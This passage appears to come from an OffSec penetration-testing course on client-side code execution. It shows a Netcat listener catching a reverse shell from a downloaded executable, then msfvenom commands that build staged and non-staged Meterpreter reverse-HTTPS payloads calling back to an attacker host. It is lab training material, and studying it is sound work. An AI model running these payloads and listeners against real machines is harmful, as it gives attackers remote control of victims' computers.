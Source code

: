 With the payload saved to our Apache root directory and the server started, we can launch a Netcat listener on our Kali attack machine to receive the shell.

We will listen for an incoming connection (-l), avoid DNS lookups (-n) and use verbose output (-v). We'll also use -p to specify the TCP port, which must match the port used when generating the msfvenom executable (as seen in Listing 3).

```
kali@kali:~$ sudo nc -lnvp 444
listening on [any] 444 ...
```

> Listing 3 - Setting up the Netcat listener

With the listener ready, let's open Microsoft Edge on the victim's machine and browse the payload's URL on our Kali Linux Apache server. We will be prompted to download the file. Once the file is downloaded, we'll execute it, ignoring and accepting any warning messages.

Within a few seconds, the reverse shell should open in our Netcat listener:

```
kali@kali:~$ sudo nc -lnvp 444
listening on [any] 444 ...
connect to [192.168.119.120] from (UNKNOWN) [192.168.120.11] 49676
Microsoft Windows [Version 10.0.17763.107]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Users\Offsec\Downloads>
```

> Listing 4 - Catching the reverse shell

Let's try another example, this time leveraging the power of Metasploit's signature _Meterpreter_[2](https://portal.offsec.com/courses/pen-300-9502/learning/client-side-code-execution-with-office-14698/will-you-be-my-dropper-14771/will-you-be-my-dropper-15043?category=in-progress#fn-local_id_92-2) payload.

The full Meterpreter payload is powerful, but the non-staged version is quite large. In this example, we'll create a staged version. This version will be more compact, and will execute in stages. The small first stage executes a callback function, which will retrieve the remaining code and execute it in memory.

The msfvenom command we'll use is similar to the non-staged version. We will select the staged payload, choose HTTPS as the protocol (shown in the suffix of the payload), and we'll set the LPORT to 443, the typical HTTPS TCP port.

Let's compare the payload sizes by generating both staged and non-staged meterpreter payloads:

```
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter_reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfnonstaged.exe
...
Payload size: 207449 bytes
Final size of exe file: 214016 bytes
Saved as: /var/www/html/msfnonstaged.exe.exe

kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 -f exe -o /var/www/html/msfstaged.exe
...
Payload size: 694 bytes
Final size of exe file: 7168 bytes
Saved as: /var/www/html/msfstaged.exe
```
